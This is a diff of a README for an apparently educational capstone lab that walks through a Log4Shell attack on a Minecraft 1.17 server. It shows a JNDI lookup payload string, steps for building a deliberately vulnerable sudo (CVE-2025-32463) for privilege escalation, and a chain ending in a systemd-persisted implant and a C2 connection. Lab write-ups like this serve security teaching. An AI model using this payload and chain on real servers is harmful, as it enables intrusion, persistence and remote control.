

Before and after one commit to newmie10/564Capstone, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -14,7 +49,7 @@ Log4Shell abuses Log4j's JNDI lookup feature. When Minecraft logs a chat message
 **Attack chain:**
 ```
 Minecraft chat input → Log4j 2.14.1 JNDI lookup → marshalsec LDAP server
-  → Python HTTP server → Exploit.class fetched → RCE on server
+  → Python HTTP server → Beachhead.class fetched → RCE on server → privilege escalation → Persistent.elf binary fetched → implant added to systemd service → C2 server connection
 ```
 ## A Deeper Dive
 
@@ -26,7 +61,7 @@ The first is a Log4J feature called **Lookups**. This feature allows logs to be
 
 This combined with another 'feature', the ability to **query remote JNDI (Java Naming and Directory) servers** to fetch unknown classes. Input sanitization was not used for these logs, and a payload like:
 ```
-${jndi:ldap://127.0.0.1:1389/Exploit}
+${jndi:ldap://127.0.0.1:1389/Beachhead}
 ```
 
 would be interpreted by Log4J and reach out to the remote server, grab the implant class, and execute it on the host machine.
@@ -52,19 +87,26 @@ java -version
 # should show openjdk 17
 ```
 
-Must enable vulnerable version of sudo for our privilege escalation attack:
+Next, clone this repository to your machine so you have all the necessary exploit files:
+```bash
+git clone https://github.com/newmie10/564Capstone.git ~/564Capstone
+cd ~/564Capstone/
 ```
-cd ~/log4j-lab/sudo/
+
+Next, you must build and enable the vulnerable version of `sudo` (CVE-2025-32463) required for our privilege escalation attack:
+```
+cd ~/564Capstone/sudo/
 ./configure
 make
 sudo make install
 ```
-Now set this sudo to your PATH; modern Ubuntu 25.10 uses sudo-rs which does not enable -R flag
 
+Set this vulnerable binary to your PATH (modern Ubuntu 25.10 uses sudo-rs which does not enable the vulnerable -R flag):
 ```
 export PATH=/usr/local/bin:$PATH
 ```
-You can test this exploit by executing the POC (learn more at CVE-2025-32463 - cool exploit)
+
+You can verify the exploit works by executing the isolated test POC:
 ```
 ./../privesc/CVE-2025-32463-POC.sh
 ```
@@ -73,27 +115,24 @@ You can test this exploit by executing the POC (learn more at CVE-2025-32463 - c
 
 ## Directory Structure
 
-Everything lives under `~/log4j-lab/`:
+Now that you have cloned the repo and built the tools, you will be primarily working out of this hierarchy:
 
 ```
-~/log4j-lab/
-├── server/          # Minecraft server
-├── payload/         # Exploit.java and Exploit.class
-└── marshalsec/      # JNDI redirect server
-```
-
-```bash
-mkdir -p ~/log4j-lab/{server,payload}
+~/564Capstone/
+├── c2-server/       # Command & Control Docker container
+├── payload/         # Beachhead.java and Persistent.cpp
+├── privesc/         # sudo exploit
+└── server/          # Minecraft server
 ```
 
 ---
 
 ## Step 1 — Minecraft Server Setup (1.17)
 
-Download Minecraft 1.17 server jar from https://xyrios.com/minecraft/tools/mc-versions/1.17 and put it into ~/log4j-lab/server/. Do the same with the client jar and put it into ~/log4j-lab/client
+Download Minecraft 1.17 server jar from https://xyrios.com/minecraft/tools/mc-versions/1.17 and put it into ~/564Capstone/server/. Do the same with the client jar and put it into ~/564Capstone/client
 
 ```
-cd ~/log4j-lab/server
+cd ~/564Capstone/server
 
 ```
 
@@ -109,7 +148,7 @@ nano eula.txt
 Run the command again if needed.
 
 
-Start the server with `trustURLCodebase` enabled (not sure if necessary - will test in future:
+Start the server with `trustURLCodebase` enabled (not sure if necessary - will test in future):
 
 ```
 /usr/lib/jvm/java-17-openjdk-amd64/bin/java -Xmx1024M -Xms1024M \
````
Also changed, not shown: other parts of README.md (+78 -24 lines).
